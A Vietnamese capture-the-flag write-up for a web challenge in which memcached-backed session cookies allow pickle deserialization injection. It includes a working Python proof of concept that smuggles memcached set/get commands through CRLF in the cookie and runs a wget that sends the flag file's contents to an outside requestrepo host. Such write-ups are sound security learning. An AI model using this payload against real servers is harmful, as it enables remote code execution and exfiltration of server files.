







**I, Phân tích**
- Challenge có 2 routes: / and /set cho phép custom lại color của website



- Và 2 handlers để xử lý errors và sessions trước mọi request


- Mình nhận thấy 2 routes chính không có vuln nhưng server đang mở port 11211 cho memcached



- Sau khi search về memcached mình phát hiện ra có vuln serialized data injection vào Memcached
- Thông qua việc tạo session, ta có thể inject nó vào memcached (python pickle) để serialize data ta truyền vào
- Mình tìm một bài viết khai thác khá giống với challenge hiện tại (nhưng không thành công khi inject vào param uicolor ở route/set)
- Hold up, để ý session handler, ta cũng có thể tùy chỉnh session theo ý mình(và nó được tạo trước khi vào bất kỳ routes nào)



- Ta có một inject point mới (đó là session cái sẽ được khởi tạo trước uicolor)
- Follow bài viết mình có set và get format command của memcached



- Build local và bắt gói tin bằng wireshark, bạn sẽ thấy được giá trị của set command 



- Custom poc để exploit 
```
import pickle
import os

class RCE:
    def __reduce__(self):
        cmd = ('wget http://y8gdi5i3.requestrepo.com/$(cat /f*)')
        return os.system, (cmd,)

def generate_exploit():
    payload = pickle.dumps(RCE(), 0)
    payload_size = len(payload)
    cookie = b'\r\nset session:f0965c70-401b-4b6f-932c-b251165c1d5d 0 2592000 '
    cookie += str.encode(str(payload_size))
    cookie += str.encode('\r\n')
    cookie += payload
    cookie += str.encode('\r\n')
    cookie += str.encode('get session:f0965c70-401b-4b6f-932c-b251165c1d5d')
    pack = ''
    for x in list(cookie):
        if x > 64:
            pack += oct(x).replace("0o","\\")
        elif x < 8:
            pack += oct(x).replace("0o","\\00")
        else:
            pack += oct(x).replace("0o","\\0")

    return f"\"{pack}\""
print(generate_exploit())
```
- Mình tạo pickle payload để execute os.system curl đến requestrepo với path là flag
- Vì session bị limited 86 kí tự, nên mình giảm command xuống
- Lưu ý rằng bạn cần build poc bằng linux hoặc ubuntu


